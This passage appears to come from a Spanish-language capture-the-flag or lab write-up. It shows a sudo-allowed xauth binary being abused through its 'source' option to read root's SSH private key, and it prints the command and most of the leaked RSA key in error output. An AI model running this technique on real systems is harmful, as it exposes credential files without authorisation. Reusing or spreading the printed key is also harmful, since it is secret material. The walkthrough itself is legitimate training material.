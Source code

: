 Vemos que podemos ejecutar el binario `xauth` como el usuario `root`, por lo que vamos a leer la ayuda e investigar que escalada puede tener.

Investigando un rato, si leemos bien la ayuda veremos que podemos leer cualquier archivo del sistema ejecutando `source`:

```
source filename                read commands from file
```

Vamos a probar a intentar leer la clave privada de `root` por si tuviera alguna, si no podremos intentar leer el `shadow`.

```shell
sudo /usr/bin/xauth source /root/.ssh/id_rsa
```

Info:

```
/usr/bin/xauth:  file /root/.Xauthority does not exist
/usr/bin/xauth: /root/.ssh/id_rsa:1:  unknown command "-----BEGIN"
/usr/bin/xauth: /root/.ssh/id_rsa:2:  unknown command "MIIEpAIBAAKCAQEAn1xk2mDBXCTen7d97aY7rEVweRUsVE5Zl4sGPG/yXLAAuodz"
/usr/bin/xauth: /root/.ssh/id_rsa:3:  unknown command "xjGuAqvTRhG4omhxiJeDr9taOePsIaUGI3Q/qBqUsbnuM/86vu/ANM6+Olzt80fc"
/usr/bin/xauth: /root/.ssh/id_rsa:4:  unknown command "Cv1QVKIdFOweMAiXskvQEV7Fw3qha7fFbf/D8L7BCgXrT70/p9jf4FBroC9pFsRy"
/usr/bin/xauth: /root/.ssh/id_rsa:5:  unknown command "6i7CFxcAfji+OeGu5ezhL21uwkTk22vmnBL1hAqn7p2vOmzg57UkP1VAN819oBLS"
/usr/bin/xauth: /root/.ssh/id_rsa:6:  unknown command "YUKsCrgjKsdQsFCef9lyFty8Dxpmfwg5t0MmLhA/uhDjvQD9k9cR95+Ru5mV467B"
/usr/bin/xauth: /root/.ssh/id_rsa:7:  unknown command "kGad73SHXTHWh9gy0iunAMMveUiEf/qWw2qo8QIDAQABAoIBAARD2sclc8ddjT/F"
/usr/bin/xauth: /root/.ssh/id_rsa:8:  unknown command "D2++1TYFHb9/25HeDvPJWr9fV6M3aq2TVnvldHzJ0Hu9ma1vEirPs0yPmFiYSweT"
/usr/bin/xauth: /root/.ssh/id_rsa:9:  unknown command "fRiR0epT28rt6PwnRpE5pXFEXz78obmzIKaCpRW+yPx4XU53zGePM+BjIvPaYluZ"
/usr/bin/xauth: /root/.ssh/id_rsa:10:  unknown command "rYUGJV5aHJyCEAwwSnXZjhRY0qiU0Tt8VWtwoaltImiNoc9yA7cbWOJcmv4g+YHy"
/usr/bin/xauth: /root/.ssh/id_rsa:11:  unknown command "2ce4xb7DAZFf0p7kVLEL2jvaYImUCT12rIo01+q1z9pntW9Y+1JqVIqkGMNITFEf"
/usr/bin/xauth: /root/.ssh/id_rsa:12:  unknown command "th3cea9fuhVxiAMIj9xLd8uG6/qUAU8ITjRZwOorJJwqwkaTWdxJq8D6+1UBEGyC"
/usr/bin/xauth: /root/.ssh/id_rsa:13:  unknown command "sRXtk8kCgYEA9f2uC7+mDRDWdr2rCaL5hY3XiqNp+PINgYwWm5ELriZORrXV6PwZ"
/usr/bin/xauth: /root/.ssh/id_rsa:14:  unknown command "AIuK7vwoNk7+MkGtveK2GwEocIZMipdnTyIBeaGUExBBgIE16IxIQaDw/zi93PVD"
/usr/bin/xauth: /root/.ssh/id_rsa:15:  unknown command "BoJ5uK+N5pCVQ67VFNfyDoiZn2EbA8pWXAKJMIJUnRpb4o5306grfiMCgYEApdhZ"
/usr/bin/xauth: /root/.ssh/id_rsa:16:  unknown command "He5k7xrccGbu20FnjeMqpfzDVeN8n06ycz4H8L0UMeC22Dy6r/6tFhJWuVmxZpa+"
/usr/bin/xauth: /root/.ssh/id_rsa:17:  unknown command "sbPEAqc6q+WjXzFe2YZ4Fhcyj/t7QXEenWrSF6gQJvBN2glWNWkIrvTFjcI5wY/7"
/usr/bin/xauth: /root/.ssh/id_rsa:18:  unknown command "ECoDHdzGprLpziq73Ukimk2TmRYur7mYIU0Qy9sCgYEAqnif6eJph7p4dZdhdW8s"
/usr/bin/xauth: /root/.ssh/id_rsa:19:  unknown command "7oHqslgm82+DLpjPfgWZi5leO6B92lUCWp9Zq96xW1mIzXk4l1QKkVJPHRPk7VKZ"
/usr/bin/xauth: /root/.ssh/id_rsa:20:  unknown command "NHzDevAftspYKl7g5gR5eom3GZfP89VAGr3G7tcyRmtCFcKORkCUrb+6fnoEB69s"
/usr/bin/xauth: /root/.ssh/id_rsa:21:  unknown command "A516R1S6oJkIvkuu/M4ZPfMCgYBk4Ca8rP/Z7FW/TOzmkm7hgBa15fwOpxNrdxvW"
/usr/bin/xauth: /root/.ssh/id_rsa:22:  unknown command "OxnrVacN+6hb+Px5BojTjw4PKb5dLz4IqtaD4qIuYryvr0EJQOCUV0HbEFVVZfAA"
/usr/bin/xauth: /root/.ssh/id_rsa:23:  unknown command "QjROTVydwrcn81vrmtq8SIhNhKFK2kAVAejpZhuy08qhK58fp1eT0bIAgNye6F3f"
```